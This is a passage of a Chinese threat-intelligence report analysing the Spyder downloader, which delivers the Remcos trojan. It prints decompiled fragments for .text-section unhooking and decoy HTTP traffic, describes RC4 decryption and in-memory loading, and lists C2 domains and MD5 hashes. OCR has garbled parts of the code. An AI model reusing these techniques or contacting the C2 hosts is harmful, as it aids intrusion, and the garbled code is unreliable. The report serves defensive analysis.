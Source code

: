 if（v8） v3 =(int)v2+v9+24; for（i=0;i<v8;++i） { v5 = v3 + \*(unsigned _int16 \*)((char \*)v7 + v9 + 20); if （!strcmp((const char \*)v5,".text")) { fl0ldProtect = 0; VirtualProtect((char \*)v7 + \*(_DWORD \*)(v5 + 12), \*(_DWORD \*)(v5 + 8), 0x40u, &fl0ldProtect); memmove((char \*)v7+\*(_DWORD \*)(v5 + 12)，&v14[\*(_DWORD \*)(v5 +12)]，\*(_DWORD \*)(v5 + 8)); VirtualProtect(char \*)v7 + \*(_DWORD \*)(v5 + 12), \*(_DWORD \*)(v5 + 8), f101dProtect, &f101dProtect); v8= \*(_WORD \*)((char \*)v7 +v9 + 6); v3 += 40; 向"www[.]wingtiptoys.com"发送HTTP请求以混淆真实通信流量。   
result $=$ WinHttpOpen(&pszAgentW，0，0，0，0);   
if （result）   
{ $\begin{array}{r l}{\vee1}&{{}=}\end{array}$ result; $\downarrow2=$ WinHttpConnect(result,L"www.wingtiptoys.com", 0x50u, 0); if（v2） { $\vee3=\vee2$ v4 $=$ WinHttpOpenRequest(v2,&pwszVerb,&pwszObjectName,0,0,0,0); if（v4） { $\vee5=\vee4$ WinHttpSendRequest(v4，0,0,0，0,0,0); WinHttpCloseHandle(v5); WinHttpCloseHandle(v3); result $=$ (void \*)WinHttpCloseHandle(v1);   
return result;  

加载资源数据，进行RC4解密，得到Remcos木马的文件数据，然后内存加载执行。使用的解密密钥如下：  

Remcos木马的C2配置信息如下：  

![](https://cdn-mineru.openxlab.org.cn/extract/c72493b1-e094-4788-9526-327a92ad2397/65c60071f4d8c04661ff40e282efa80072361665bc53682f2bd75ab5fc3ad4a8.jpg)  

以0x1E为分隔符，共有3组，不过后面两个域名目前没有对应的解析IP，所以实际上有效的只有morimocanab.com。  

morimocanab.com:443   
grand123099ggcarnivol.com:443   
Omeri12oncloudd.com:443  

## I总结  

在短短几个月时间内，Spyder下载器已经历了数次更新，由此可见攻击团伙为避开安全防护软件检测，完成情报窃取任务的决心。从功能上看，Spyder作为通用下载器，可以用来在受害者主机上部署任意可执行文件，此次发现的Spyder被用于投递Remcos木马可能只是涉及该下载器组件的攻击链的冰山一角，奇安信威胁情报中心将持续关注相关APT组织的攻击活动。  

## I防护建议  

奇安信威胁情报中心提醒广大用户，谨防钓鱼攻击，切勿打开社交媒体分享的来历不明的链接，不点击执行未知来源的邮件附件，不运行标题夸张的未知文件，不安装非正规途径来源的APP。做到及时备份重要文件，更新安装补丁。  

若需运行，安装来历不明的应用，可先通过奇安信威胁情报文件深度分析平台（https://sandbox.ti.qianxin.com/sandbox/page）进行判别。目前已支持包括Windows、安卓平台在内的多种格式文件深度分析。  

目前，基于奇安信威胁情报中心的威胁情报数据的全线产品，包括奇安信威胁情报平台（TIP）、天擎、天眼高级威胁检测系统、奇安信NGSOC、奇安信态势感知等，都已经支持对此类攻击的精确检测。  

#  

### MD5  

(Spyder) 05e59dcc5f4b657696a92fd2b3eac90d 2491942d8cd5807cd4615a07ad26a54a 6699190f7f6574029432b2678e1f40ac bc743f1b24e8e585e889d77099ad0ac2 656b523031d9ffda7b8b1740542b653c (Remcos) 57b805f4c496c5d25acbe45bfaf7ee11  

68f4f27219840b4ba86462241f740bbd   
5eae3dee275dbca878d145817707597f  

### c&C  
